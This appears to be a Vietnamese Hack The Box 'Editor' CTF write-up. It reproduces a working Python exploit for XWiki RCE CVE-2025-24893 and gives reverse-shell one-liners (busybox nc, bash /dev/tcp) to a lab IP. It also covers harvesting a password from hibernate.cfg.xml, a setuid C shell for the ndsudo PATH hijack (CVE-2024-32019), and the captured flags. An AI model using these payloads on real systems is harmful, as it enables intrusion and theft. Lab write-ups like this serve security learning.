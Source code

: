```yaml
---
title: HTB Editor
published: 2025-08-20
tags: [HTB, Linux, Easy]
category: Writeups
author: Trohan0x00
draft: true
image: "/assets/post_image/editor.png"
---
```

# HTB Labs: Editor 
## I. User flag
Đến với lab việc đầu tiên ta sẽ recon trước bằng nmap 
![image](https://hackmd.io/_uploads/SyS02j8Kge.png)
Ta thấy có 2 service web ở port `80` và `8080` và 1 `ssh`. Giờ mình sẽ kiểm trả ở port `80` trước. Trước đó thì ta cần update tên miền vào file `/etc/hosts` trước
![image](https://hackmd.io/_uploads/rJC21h8Kgg.png)
Nhìn chung đây là một trang sản phẩm cho người dùng có thể tải `Code Editor` về máy và tìm kiếm thì mình không thấy điểm nào để có thể inject input vào nên tạm thời sẽ đi đến với port `8080`
![image](https://hackmd.io/_uploads/S1v74HDYgg.png)
Ta thấy đây là một trang dùng `xwiki` để giới thiệu về tool `Simplist code` ở phía trang port `80`. Có một vài trường và path đáng để xem xét. Ở bên dưới ta thấy rằng phiên bản `xwiki` là `XWiki Debian 15.10.8`
![image](https://hackmd.io/_uploads/SJh04Bvtle.png)
Mình sẽ check sploit bằng [exploit-db](https://www.exploit-db.com/) để xem có bản khai thác hay `POC` nào được public không. Ta thấy được có bản `CVE` đã công bố 2025 về lỗ hỏng của version này
![image](https://hackmd.io/_uploads/S1l8LSwtxl.png)

```python 

# Exploit Title: XWiki Platform - Remote Code Execution
# Exploit Author: Al Baradi Joy
# Exploit Date: April 6, 2025
# CVE ID: CVE-2025-24893
# Vendor Homepage: https://www.xwiki.org/
# Software Link: https://github.com/xwiki/xwiki-platform
# Version: Affected versions up to and including XWiki 15.10.10
# Tested Versions: XWiki 15.10.10
# Vulnerability Type: Remote Code Execution (RCE)
# CVSS Score: 9.8 (Critical)
# CVSS Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
# Description:
# XWiki Platform suffers from a critical vulnerability where any guest user
can
# execute arbitrary code remotely through the SolrSearch endpoint. This can
lead
# to a full server compromise, including the ability to execute commands on
the
# underlying system. The vulnerability impacts the confidentiality,
integrity,
# and availability of the XWiki installation. The issue has been patched in
XWiki
# versions 15.10.11, 16.4.1, and 16.5.0RC1.
# Proof of Concept: Yes
# Categories: XWiki, Remote Code Execution, CVE-2025, RCE
# References:
# - GHSA Advisory: https://github.com/advisories/GHSA-rr6p-3pfg-562j
# - NVD CVE Details: https://nvd.nist.gov/vuln/detail/CVE-2025-24893
# - GitHub Exploit Link:
https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py

import requests

# Banner
def display_banner():
print("="*80)
print("Exploit Title: CVE-2025-24893 - XWiki Platform Remote Code
Execution")
print("Exploit Author: Al Baradi Joy")
print("GitHub Exploit:
https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py")
print("="*80)

# Function to detect the target protocol (HTTP or HTTPS)
def detect_protocol(domain):
https_url = f"https://{domain}"
http_url = f"http://{domain}"

try:
response = requests.get(https_url, timeout=5, allow_redirects=True)
if response.status_code < 400:
print(f"[✔] Target supports HTTPS: {https_url}")
return https_url
except requests.exceptions.RequestException:
print("[!] HTTPS not available, falling back to HTTP.")

try:
response = requests.get(http_url, timeout=5, allow_redirects=True)
if response.status_code < 400:
print(f"[✔] Target supports HTTP: {http_url}")
return http_url
except requests.exceptions.RequestException:
print("[✖] Target is unreachable on both HTTP and HTTPS.")
exit(1)

# Exploit function
def exploit(target_url):
target_url = detect_protocol(target_url.replace("http://",
"").replace("https://", "").strip())
exploit_url =
f"{target_url}/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d"

try:
print(f"[+] Sending request to: {exploit_url}")
response = requests.get(exploit_url, timeout=10)

# Check if the exploit was successful
if response.status_code == 200 and "root:" in response.text:
print("[✔] Exploit successful! Output received:")
print(response.text)
else:
print(f"[✖] Exploit failed. Status code:
{response.status_code}")

except requests.exceptions.ConnectionError:
print("[✖] Connection failed. Target may be down.")
except requests.exceptions.Timeout:
print("[✖] Request timed out. Target is slow or unresponsive.")
except requests.exceptions.RequestException as e:
print(f"[✖] Unexpected error: {e}")

# Main execution
if __name__ == "__main__":
display_banner()
target = input("[?] Enter the target URL (without http/https):
").strip()
exploit(target)
            
```
Lỗi nằm trong macro SolrSearch của XWiki. Khi người dùng gửi truy vấn tìm kiếm với `media=rss`, dữ liệu này được chèn trực tiếp vào `template`. `Template` này cho phép chèn và thực thi mã `Groovy`, nhưng không có cơ chế lọc/chặn thích hợp.
Kết quả: kẻ tấn công có thể inject Groovy script → được thực thi trực tiếp trên server.

Ta thấy được đoạn payload rce là `}}}{{async async=false}}{{groovy}}println("cat /etc/passwd".execute().text){{/groovy}}{{/async}}`. Ở đây sẽ dùng `}}}` để out khỏi context ban đầu sau đó dùng macro `async` để đồng bộ hóa và chèn thêm macro `groovy` vào thực hiện `RCE` để đọc file `/etc/passwd`. Giờ ta sẽ tiến hành inject thử với lệnh
Mình sẽ test thử với lệnh `id` về cơ bản để check xem quyền của ta như thế nào, có thể là root hay không. Như ta thấy thì kết quả trả về khá nhiều data nhưng ta chỉ cần vô theo các dòng có `rss`
![image](https://hackmd.io/_uploads/SJLj0HDYxe.png)
Ta có thể thấy được kết quả đã thành công có thể thực hiện được `RCE`. Giờ mình sẽ check thử xem có thể đưa `rev shell` vào không để thuận tiện dùng lệnh
Ta có thể dùng `'busybox nc 10.10.10.10 9001 -e /bin/bash'` để rev shell. Ta nên thêm busybox để có thể chạy `nc -e` thay vì chạy lệnh `bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/4444 0>&1'` vì sẽ có nhiều target không có bash đầy đủ và cũng không hỗ trợ `/dev/tcp`
![image](https://hackmd.io/_uploads/HyXkMuPtgg.png)
Ta đã thành công thực hiện `rev shell`, giờ là đến việc tìm `user flag` . Sau một lúc tìm hiểu về `XWiki` ta thấy được có một file đặc biệt `/usr/local/xwiki/webapps/xwiki/WEB-INF/hibernate.cfg.xml`. File này là nơi `XWiki` dùng để kết nối với database của server để thực hiện xử lý các dữ liệu liên quan đến `login, logout, reg,...` 
Do `dir` không giống nhau nên mình check thử thì thấy được file nằm ở `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml`
![image](https://hackmd.io/_uploads/HJIFBdwKxl.png)
Ta có thể thấy được thông tin `password` bằng lệnh `cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep "password"` 
![image](https://hackmd.io/_uploads/Bkh9D_wFll.png)
Cộng thêm với username là `oliver` ta có thể login vào `ssh server` để lấy shell
![image](https://hackmd.io/_uploads/SkA6vuDFlx.png)
> 3fd90dfed2869746543d3f036734541d

## II. Root flag
Đến với phần lấy `root flag`, thì việc cần làm là check trước các bước đầu tiên là `enum SUID` với `find / -perm -4000 2>/dev/null`
![image](https://hackmd.io/_uploads/ry-29OvYlg.png)
Ta thấy được đáng chú ý nhất là `ndsudo` từng dính `CVE-2024-32019 (Untrusted Search Path)`. Lỗ hổng phát sinh khi `ndsudo` được đóng gói dưới dạng `SUID root` (root-owned và có bit SUID), nhưng lại tìm các lệnh thông qua biến môi trường `PATH`, điều này dẫn đến tình huống `Untrusted Search Path`.
Mình tìm được `POC` cụ thể [ở đây](https://github.com/AzureADTrent/CVE-2024-32019-POC)
ta sẽ dùng file c 
```c 
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```
Và sau đó dùng gcc compile thành binary do ở phía `ssh server` không có `gcc` nên ta sẽ dùng ở local. Tiếp đến để truyền nhanh lên `ssh server` mà không cần mở server ở local ta có thể dùng `scp`
![image](https://hackmd.io/_uploads/HJnW2uvKxg.png)
Giờ ta sẽ set `PATH` biến mội trường cho nó và cấp quyền thực thi
![image](https://hackmd.io/_uploads/S1X8huPFel.png)
Sau cùng là sẽ gọi lệnh `./ndsudo nvme-list`
![image](https://hackmd.io/_uploads/H1qXT_vKge.png)
Giờ ta đã có quyền root giờ chỉ cần đến root và lấy flag
![image](https://hackmd.io/_uploads/B1aHTOvKeg.png)

> 396ef747a71039bd66d36d2d75c4966f

